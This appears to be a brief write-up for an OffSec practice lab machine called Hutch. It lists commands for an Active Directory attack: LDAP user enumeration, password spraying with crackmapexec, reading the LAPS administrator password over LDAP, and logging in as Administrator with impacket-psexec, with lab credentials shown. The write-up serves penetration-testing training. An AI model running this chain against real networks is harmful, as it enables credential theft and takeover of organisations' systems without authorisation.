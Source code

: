 Use ldap search for user enumeration and store results in a file.
```
ldapsearch -x -h 192.168.162.122 -b "dc=hutch,dc=offsec" > ldap_search.txt
```
clean the file by first getting the usernames only
```
cat ldap_search.txt | grep -i "samaccountname"
```
then copying and pasting them into a file.
```
vi raw_users.txt
```
afterwards we edit and clean the file with this command.
```
cat raw_users.txt | cut -d: -f2 | tr -d " " > users.txt
```
used to crack found passwords or users.
```
crackmapexec smb 192.168.105.122 -u users.txt -p CrabSharkJellyfish192 --continue-on-success
```
used to find winrm access.
```
crackmapexec winrm 192.168.219.122 -u fmcsorely -p CrabSharkJellyfish192
```
used to find the shares on a file system.
```
crackmapexec smb 192.168.105.122 -u fmcsorley -p CrabSharkJellyfish192 --shares
```
used to find the admin password
```
ldapsearch -x -H ldap://192.168.105.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
```
used to log in to the machine.
```
impacket-psexec hutch.offsec/Administrator:'$az+c]64++F{$A'@192.168.105.122
```
